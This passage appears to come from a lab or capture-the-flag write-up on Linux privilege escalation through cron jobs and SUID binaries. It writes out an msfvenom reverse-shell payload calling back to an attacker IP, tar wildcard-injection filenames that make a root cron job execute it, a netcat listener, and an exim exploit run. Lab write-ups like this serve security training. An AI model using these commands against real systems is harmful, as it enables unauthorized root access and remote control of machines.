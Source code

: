 > now just run that executable
```
/tmp/rootbash -p
```
| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the value of PATH variable in /etc/crontab ? | /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin |

## Cron Jobs - Wildcards

> now view the another script from /usr/local/bin/compress.sh
```
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *

```
Here the tar command is running with a wildcard(*) in home directory.

> using msfvenom we willgenerate a reverse shell ELF binary using our kali lhost ip. and transfer the file to the vm
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.17.48.110 LPORT=4444 -f elf -o shell.elf

```

> now give the executable permission to the shell.elf
```
chmod +x shell.elf
```

> create these files in /home/user
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

> now set up a netcat listener in local machine
```
nc -lvnp 4444
```

after some time we will get a root shell into this netcat listener


## SUID / SGID Executables - Known Exploits

> find the SUID / SGID executables on the Debian VM:
```
find / -type f -a \(-perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
```
> to get a root shell just run the exploit
```
./home/user/tools/suid/exim/cve-2016-1531.sh
```
